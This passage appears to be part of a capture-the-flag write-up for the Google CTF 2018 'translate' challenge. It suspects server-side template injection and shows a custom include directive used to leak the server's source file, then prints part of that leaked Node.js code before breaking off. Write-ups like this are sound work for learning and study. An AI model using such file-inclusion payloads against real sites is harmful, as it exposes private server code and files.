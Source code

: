 ```{% raw %}
![error.png](/assets/googlectf-2018-quals-2018-translate/error.png)


Then it seems to be server-side template injection. Next step is to get source code as the description says.

Looking into html, I found the tag something like AngularJS directive: 
```html
<div my-include="static/footer.html">
```

maybe this tag would work like `ng-include`. So tried to leak `/usr/local/chall/srcs/server.js` putting `<div my-include="srcs/server.js">` and it works, but it couldn't leak `./flag.txt`.

```javascript
// ./srcs/server.js

const cookieParser = require('cookie-parser')
const uuidv4 = require('uuid/v4');

// note: To let Domino run in there,
//   sed -i "61s/\'use strict\'//" node_modules/vm2/lib/sandbox.js

const {NodeVM} = require('vm2');
const restrictedFs = require('./restricted_fs.js');

const Memcache = require('memcached-promisify');

////////////////////////////////
// Memcache functions
////////////////////////////////

const memcache = new Memcache({'cacheHost': '127.0.0.1:11211'});

function read_dictionary(id, lang) {
  let key = `${id}_${lang}`;
  return memcache.get(key).then((result) => {
      if (!result)
          return JSON.parse(restrictedFs.load(`i18n/${lang}.json`));
      return result;
  }).catch(console.error);
}

function write_dictionary(id, lang, data) {
  let key = `${id}_${lang}`;
  return memcache.set(key, data, 1*60*60 /*1 hour*/).then(() => {
    return `${id}_${lang}`;
  }).catch(console.error);
}

function delete_dictionary(id, lang) {
  let key = `${id}_${lang}`;
  return memcache.del(key).catch(console.error);
}


////////////////////////////////
// Renderer utilities
////////////////////////////////

function renderHtml(html) {
  var response = '';
  response += restrictedFs.load('static/header.html');
  response += html;
```